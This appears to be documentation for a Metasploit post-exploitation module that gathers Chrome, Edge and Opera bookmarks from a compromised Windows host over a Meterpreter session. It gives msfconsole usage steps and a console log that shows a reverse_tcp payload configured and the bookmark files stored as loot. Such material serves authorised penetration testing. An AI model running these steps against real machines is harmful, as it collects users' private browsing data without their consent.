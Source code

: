 ## Vulnerable Application

This modules retrieves stored bookmarks for Google Chrome, Microsoft Edge and Opera if the browsers exist on the target machine.

## Verification Steps
  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/get_bookmarks```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options


  **SESSION**

  The session to run this module on.

## Scenarios

### Windows 11.

  ```
msf6 exploit(multi/handler) > use post/windows/gather/get_bookmarks
[*] Using configured payload windows/x64/meterpreter/reverse_tcp

msf6 post(windows/gather/get_bookmarks) > set session 3
session => 3
msf6 post(windows/gather/get_bookmarks) > run


[-] Error loading USER S-1-5-21-1515542607-384395710-682424177-500: Profile doesn't exist or cannot be accessed
[*] BOOKMARKS FOR <user>
[*] Bookmarks stored: C:/metasploit/apps/pro/loot/20220405164635_default_GoogleChrome.boo_219405.txt
[-] Error loading USER S-1-5-21-1515542607-384395710-682424177-500: Profile doesn't exist or cannot be accessed
[*] BOOKMARKS FOR <user>
[*] Bookmarks stored: C:/metasploit/apps/pro/loot/20220405164637_default_Opera.bookmarks_833249.txt
[-] Error loading USER S-1-5-21-1515542607-384395710-682424177-500: Profile doesn't exist or cannot be accessed
[*] BOOKMARKS FOR <user>
[*] Bookmarks stored: C:/metasploit/apps/pro/loot/20220405164640_default_Edge.bookmarks_245676.txt
[*] Post module execution completed

msf6 post(windows/gather/get_bookmarks) > loot

Loot
====

host             service  type                    name                                                                                 content     info                        path
----             -------  ----                    ----                                                                                 -------     ----                        ----
<ip>                       Opera.bookmarks         #<Msf::Sessions::Meterpreter_x64_Win:0x000001dd509f2f48>_Opera_bookmarks.txt         text/plain  Bookmarks for Opera         C:/metasploit/apps/pro/loot/20220405164430_default_Opera.bookmarks_344376.txt
<ip>                       Edge.bookmarks          #<Msf::Sessions::Meterpreter_x64_Win:0x000001dd509f2f48>_Edge_bookmarks.txt          text/plain  Bookmarks for Edge          C:/metasploit/apps/pro/loot/20220405164432_default_Edge.bookmarks_798475.txt
<ip>                       GoogleChrome.bookmarks  #<Msf::Sessions::Meterpreter_x64_Win:0x000001dd509f2f48>_GoogleChrome_bookmarks.txt  text/plain  Bookmarks for GoogleChrome  C:/metasploit/apps/pro/loot/20220405164427_default_GoogleChrome.boo_256524.txt

  ```
